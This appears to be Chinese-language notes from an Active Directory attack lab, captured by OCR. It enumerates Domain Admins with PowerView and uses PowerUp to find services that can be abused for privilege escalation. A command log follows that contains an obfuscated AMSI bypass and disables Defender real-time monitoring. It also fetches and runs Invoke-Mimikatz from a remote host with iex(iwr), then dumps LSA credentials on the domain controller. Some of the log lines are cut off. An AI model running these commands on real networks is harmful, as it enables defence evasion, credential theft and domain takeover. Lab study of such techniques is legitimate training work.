 枚举所有域管理员信息
```
PS C:\ad> Get-NetGroupMember -GroupName "Domain Admins" -Recurse


GroupDomain  : dollarcorp.moneycorp.local
GroupName    : Domain Admins
MemberDomain : dollarcorp.moneycorp.local
MemberName   : svcadmin
MemberSID    : S-1-5-21-1874506631-3219952063-538504511-1122
IsGroup      : False
MemberDN     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local

GroupDomain  : dollarcorp.moneycorp.local
GroupName    : Domain Admins
MemberDomain : dollarcorp.moneycorp.local
MemberName   : Administrator
MemberSID    : S-1-5-21-1874506631-3219952063-538504511-500
IsGroup      : False
MemberDN     : CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
```

一共两个域管理员，这两个要重点关注。
```
svcadmin
Administrator
```

# 本地权限提升

引入powerup，全面检查漏洞情况
```
PS C:\ad> . .\PowerUp.ps1
PS C:\ad> Invoke-AllChecks
```

发现有两个可以修改的服务
```
[*] Checking service permissions...


ServiceName   : AbyssWebServer
Path          : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart    : True

ServiceName   : SNMPTRAP
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart    : True
```


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'